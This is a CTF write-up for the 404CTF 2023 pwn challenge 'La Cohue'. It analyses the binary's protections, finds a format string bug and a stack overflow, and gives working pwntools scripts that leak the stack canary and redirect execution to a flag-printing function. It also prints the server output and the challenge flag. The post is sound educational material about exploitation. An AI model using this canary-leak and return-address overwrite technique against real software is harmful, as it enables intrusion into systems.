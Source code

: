 ```yaml
---
title: CTFs | 404CTF2023 | PWN |La-Cohue
author: Kaiba_404
date: 2023-06-07
categories: [CTFs, 404CTF2023, PWN]
tags: [CTF, 404CTF2023, pwn]
permalink: /CTFs/404CTF2023/pwn/lacohue
---
```



# La Cohue


![la_cohue](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/a853e57b-5ee3-429a-ae13-2eced0433113)

The challenge gives us an ELF file [la_cohue](https://github.com/CongKhaiNGUYEN/congkhainguyen.github.io/tree/main/_posts/CTFs/404CTF2023/pwn/files/la_cohue). Using the command `file la_cohue` and `checksec la_cohue` to get some infomations about it.

```shell
$ file la_cohue 
la_cohue: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=56ad00dfd261c3bad8d131b25708d9c7e861ccda, not stripped
```
```shell
$ checksec la_cohue
[*] '~/404CTF/la_cohue'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

```
From the provided commands output, we can gather some interesting information about the file. It is identified as an "ELF 64-bit" file and it appears to be "not stripped". It's protected by `NX` (We can't run the shellcode by injecting it into the stack) and `Canary found` (That is to say that this file has canary in the stack when executing). To further analyze the file and gather more information for potential exploitation, we can utilize Ghidra, a powerful reverse engineering tool. Ghidra will allow us to read and analyze the file, providing deeper insights into its structure and functionality.

![main_cohue](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/a080a22c-87ff-48f0-ac23-75ecc80ecebe)

The `main` function isn't all that interesting, so we'll take a look at the `choice` function.

![choice_cohue](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/33f91c60-1caa-4d1f-ab0e-c82c4092e87f)

Based on the information available, it appears that the mentioned function is vulnerable to two specific types of attacks: Format String Vulnerability and Return-Oriented Programming (ROP) as shown in the images below.

***Format String Vuln***

![fmt_str](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/b0d89299-f5fa-44c8-b836-2d209ec44009)

***ROP***

![size_cohue](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/250fc6be-ba32-4ca3-b70e-06c9cb5bc0da)

![ROP_cohue](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/1defc0f7-8d3b-490f-a4d1-34546889814a)

We also find a very interesting function in this ELF file. It's the `canary()` function. When invoked, this function will provide us with the flag. It suggests that calling this specific function is crucial to obtaining the desired flag.

![canary_func](https://github.com/CongKhaiNGUYEN/CTF/assets/61443497/6e9577e4-982e-4e1b-939e-0b39e4e82c04)

## Exploit Scenario

**Step 1**: Taking advantage of the Format String vulnerability to leak `canary` (Canary is an 8 byte hexa number that always ends with two zeros and the rest of the numbers change randomly each time we execute the  ELF file)

**Step 2**: After successfully leaking the canary value, we can proceed to bypass the canary binary protection. We have identified that the ELF file lacks Position Independent Executable (PIE) protection, meaning that the address of each instruction remains the same every time the program is launched. Leveraging this knowledge, we can employ Return-Oriented Programming (ROP) techniques.

To call the canary() function using ROP, we can construct a payload with the following format:

`payload = 'A'*72 + canary + 'B'*8 + address_of_canary_function
`

## Code 

### fuzz.py - leak canary

```python
from pwn import *

context.update(arch="amd64", os="linux")

# r = process("./la_cohue")
r = remote("challenges.404ctf.fr", 30223)

r.recvuntil(b">>>")
r.sendline(b'2')
p_A = b""
p50_p = b" %p" * 20
r.sendline(p_A + p50_p)
r.recvuntil(b"[Vous] : ")
result = str(r.recvline()).split(' ')
for i in range(len(result)):
	print("[" + str(i) + "]: " + result[i])
	
r.close()
```

```shell
[+] Opening connection to challenges.404ctf.fr on port 30223: Done
[0]: b'
[1]: 0x7ffce2c08980
[2]: 0x7f88d94cf8c0
[3]: (nil)
[4]: 0x9
[5]: 0x7f88d94cf8d0
[6]: (nil)
[7]: 0x20000e760
[8]: 0x2520702520702520
[9]: 0x2070252070252070
[10]: 0x7025207025207025
[11]: 0x2520702520702520
[12]: 0x2070252070252070
[13]: 0x7025207025207025
[14]: 0x2520702520702520
[15]: 0xa70252070
[16]: 0x7ffce2c0b0a0
[17]: 0x3ac7b7ded693ef00
[18]: 0x7ffce2c0b0a0
[19]: 0x400b06
[20]: 0x7ffce2c0b188\n'
[*] Closed connection to challenges.404ctf.fr port 30223
```

After running the file multiple times, we have observed that the canary is located at position [17]. Based on this information, we can construct the exploit program as follows:

```python
from pwn import *

context.arch = "amd64"
context.os = "linux"
# context.binary = "./la_cohue"

# p = process("./la_cohue")
p = remote("challenges.404ctf.fr", 30223)

p.recvuntil(b">>>")
p.sendline(b"2")
p.sendline(b'%17$p')
re_cana = p.recvuntil(b'Que')[9:-5]
canary = int(re_cana.decode(),16)
log.success(f'Canary: {hex(canary)}')


p.recvuntil(b">>>")
p.sendline(b'1')
p.recv()
p.sendline(b'A'*72+p64(canary)+b'B'*8+p64(0x400877))
p.recv()
p.sendline(b'3')
print(p.recvall().decode())
```

```
[+] Opening connection to challenges.404ctf.fr on port 30223: Done
[+] Canary: 0x5daaac6def037000
[+] Receiving all data: Done (321B)
[*] Closed connection to challenges.404ctf.fr port 30223
[Francis] : Je vous laisse mettre votre plan à éxécution.

Que faites-vous ?

1 : Aller voir Francis
2 : Réfléchir à un moyen de capturer le canari
3 : Vaquer à vos occupations
>>> Je vous suis infiniment reconnaissant d'avoir retrouvé mon canari.
404CTF{135_C4N4r15_41M3N7_14_C0MP46N13_N3_135_141553Z_P45_53U15}
```


**Flag:** `404CTF{135_C4N4r15_41M3N7_14_C0MP46N13_N3_135_141553Z_P45_53U15}`